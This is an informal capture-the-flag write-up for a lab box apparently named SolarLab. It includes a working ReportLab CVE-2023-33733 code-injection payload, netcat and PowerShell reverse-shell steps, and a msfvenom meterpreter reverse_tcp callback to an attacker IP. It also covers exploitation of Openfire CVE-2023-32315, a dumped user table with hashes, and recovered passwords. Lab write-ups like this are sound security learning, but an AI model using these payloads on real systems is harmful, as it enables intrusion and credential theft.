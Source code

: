 when we open file with passwords in (findings category), we create list and do bruteforce, to get available user 
![[Pasted image 20250201153127.png]]
we found password that we found il our details-file.xlsx 
![[Pasted image 20250201153154.png]]
![[Pasted image 20250201153218.png]]
but its dont give for us anything.

so we try to find something new, and lets check 6791 port
![[Pasted image 20250201152720.png]]
when we try login we found that we cat see available users
![[Pasted image 20250201152801.png]]
we create list of name blake
![[Pasted image 20250201152738.png]]
and found abailable name of user
![[Pasted image 20250201152940.png]]

and we can get access with this pass ThisCanB3typedeasily1@
then we create report and download pdf file
that show for us pdf version
![[Pasted image 20250201173848.png]]
reportlab pdf is exploitable, cve-2023-33733

this our command that we past 
<para>
    <font color="[ [ getattr(pow,Attacker('__globals__'))['os'].system('<HERE OUR PAYLOAD>') for Attacker in [orgTypeFun('Attacker', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">
    exploit
    </font>
</para>
here, but we add whole command in burp because there we have limith of length(but this input the only one since all the others have significant limitations that cannot be bypassed)
![[Pasted image 20250201181726.png]]
we use payload with revshels .com powershell base64
nc -lvnp 4444
and we get access
![[Pasted image 20250201182024.png]]

![[Pasted image 20250202114022.png]]


![[Pasted image 20250202113904.png]]
after connecting we found openfire and active listening port.

we need create payload:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=8080 -f exe > shell.exe
and use msfconsole handler
 portfwd add -l 1234 -p 9090 -r 127.0.0.1
 
and after open our site we found vul version of openfire
![[Pasted image 20250202145650.png]]
CVE-2023-32315
https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT
https://github.com/miko550/CVE-2023-32315 
![[Pasted image 20250202154401.png]]
[+] Username: hugme
[+] Password: HugmeNOW

we connect plugin and get rce
then we found next data in PS C:\Program Files\openfire\embedded-db

INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')

INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)

we also found this tamplate 
CREATE MEMORY TABLE PUBLIC.OFUSER(USERNAME VARCHAR(64) NOT NULL,STOREDKEY VARCHAR(32),SERVERKEY VARCHAR(32),SALT VARCHAR(32),ITERATIONS INTEGER,PLAINPASSWORD VARCHAR(32),ENCRYPTEDPASSWORD VARCHAR(255),NAME VARCHAR(100),EMAIL VARCHAR(100),CREATIONDATE VARCHAR(15) NOT NULL,MODIFICATIONDATE VARCHAR(15) NOT NULL,CONSTRAINT OFUSER_PK PRIMARY KEY(USERNAME))

https://github.com/c0rdis/openfire_decrypt
A_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)